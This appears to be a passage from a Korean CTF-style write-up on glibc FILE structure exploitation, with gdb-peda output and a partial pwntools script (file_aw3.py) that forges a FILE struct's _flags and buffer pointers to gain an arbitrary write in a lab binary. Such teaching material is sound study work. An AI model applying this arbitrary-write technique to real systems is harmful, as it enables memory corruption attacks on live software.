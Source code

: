 ```c
0000| 0x7fffffffe5e0 --> 0x1
0008| 0x7fffffffe5e8 --> 0x0
0016| 0x7fffffffe5f0 --> 0x0
0024| 0x7fffffffe5f8 --> 0x0
0032| 0x7fffffffe600 --> 0x400970 (<__libc_csu_init>:   push   r15)
0040| 0x7fffffffe608 --> 0x4006f0 (<_start>:    xor    ebp,ebp)
0048| 0x7fffffffe610 --> 0x7fffffffe700 --> 0x1
0056| 0x7fffffffe618 --> 0x4a0a753aafa78600
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000000000400875 in main ()
gdb-peda$ x/gx $rax
0x602010:       0x00000000fbad2488
```

`_IO_SYSREAD` 함수가 호출되는 조건을 맞춰주기 위해 testfile에 대한 파일 포인터의 `_flags` 값을 알아냈다. `_flags` 멤버 변수는 `0xfbad2488` 값을 가지고 있다.

다음은 `file_aw3` 에 대한 공격 코드인 `file_aw3.py` 에 대한 설명이다.

- file_aw3.py
    
    ```python
    #file_aw3.py
    from pwn import *
    
    p = process("./file_aw3")
    
    print(p.recvuntil("PTR: "))
    fp = int(p.recvuntil(b"\n").strip(b"\n"),16)
    print(hex(fp))
    
    print(p.sendlineafter("Addr: ", str(fp)))
    
    payload = p64(0x00000000fbad2488)
    payload += p64(0) # _IO_read_ptr
    payload += p64(0) # _IO_read_end
    payload += p64(0) # _IO_read_base
    payload += p64(0) # _IO_write_base 
    payload += p64(0) # _IO_write_ptr 
    payload += p64(0) # _IO_write_end 
    payload += p64(0x60108c) # _IO_buf_base
    payload += p64(0x60108c+4) # _IO_buf_end
    
    payload += p64(0)
    payload += p64(0)
    payload += p64(0)
    
    payload += p64(0)
    payload += p64(0) 
    
    payload += p64(0) # stdin
    
    pause()
    print(p.sendlineafter("Value: ", payload))
    